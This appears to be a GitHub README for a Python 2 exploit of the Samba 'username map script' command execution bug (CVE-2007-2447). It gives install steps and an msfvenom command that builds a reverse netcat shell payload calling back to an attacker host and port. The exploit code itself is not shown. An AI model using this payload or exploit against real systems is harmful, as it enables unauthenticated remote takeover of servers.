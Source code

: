 # smb-usermap-destroyer
Smb Usermap Destoyer is a python2 exploit for 𝗖𝗩𝗘-𝟮𝟬𝟬𝟳-𝟮𝟰𝟰𝟳 ('𝗨𝘀𝗲𝗿𝗻𝗮𝗺𝗲' 𝗺𝗮𝗽 𝘀𝗰𝗿𝗶𝗽𝘁 𝗖𝗼𝗺𝗺𝗮𝗻𝗱 𝗘𝘅𝗲𝗰𝘂𝘁𝗶𝗼𝗻).
I created my own python script to automate the attack and avoid the exploitation with msfconsole.

𝗢𝗳𝗳𝗶𝗰𝗶𝗮𝗹 𝗱𝗲𝘀𝗰𝗿𝗶𝗽𝘁𝗶𝗼𝗻 𝗼𝗳 𝘃𝘂𝗹𝗻𝗲𝗿𝗮𝗯𝗶𝗹𝗶𝘁𝘆:

This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication! (source: https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script).


𝗕𝗲𝗳𝗼𝗿𝗲 𝘂𝘀𝗲 𝘁𝗵𝗲 𝗲𝘅𝗽𝗹𝗼𝗶𝘁 𝗶𝗻𝘀𝘁𝗮𝗹𝗹 𝘁𝗵𝗲 𝗳𝗼𝗹𝗹𝗼𝘄𝗶𝗻𝗴 𝗿𝗲𝗾𝘂𝗶𝗿𝗲𝗺𝗲𝗻𝘁𝘀:

➡ Install python2:
    apt install python

➡ Install pip:
    apt install python-pip (If you can't find python-pip package try donwload pip insytaller from: https://bootstrap.pypa.io/get-pip.py).

➡ Install with pip the pysmb implementation:
    pip install --user pysmb


𝗦𝗵𝗲𝗹𝗹𝗰𝗼𝗱𝗲 𝗴𝗲𝗻𝗲𝗿𝗮𝘁𝗶𝗼𝗻 𝗮𝗻𝗱 𝗰𝗼𝗻𝗳𝗶𝗴𝘂𝗿𝗮𝘁𝗶𝗼𝗻:

• Create your own Shellcode with your host and port:
    
𝗺𝘀𝗳𝘃𝗲𝗻𝗼𝗺 -𝗽 𝗰𝗺𝗱/𝘂𝗻𝗶𝘅/𝗿𝗲𝘃𝗲𝗿𝘀𝗲_𝗻𝗲𝘁𝗰𝗮𝘁 𝗟𝗛𝗢𝗦𝗧=𝟭𝟬.𝟭𝟬.𝟭𝟬.𝟯𝟬 𝗟𝗣𝗢𝗥𝗧=𝟭𝟯𝟯𝟳 -𝘃 𝘀𝗵𝗲𝗹𝗹𝗰𝗼𝗱𝗲 -𝗳 𝗽𝘆𝘁𝗵𝗼𝗻
    
• Then replace the default.

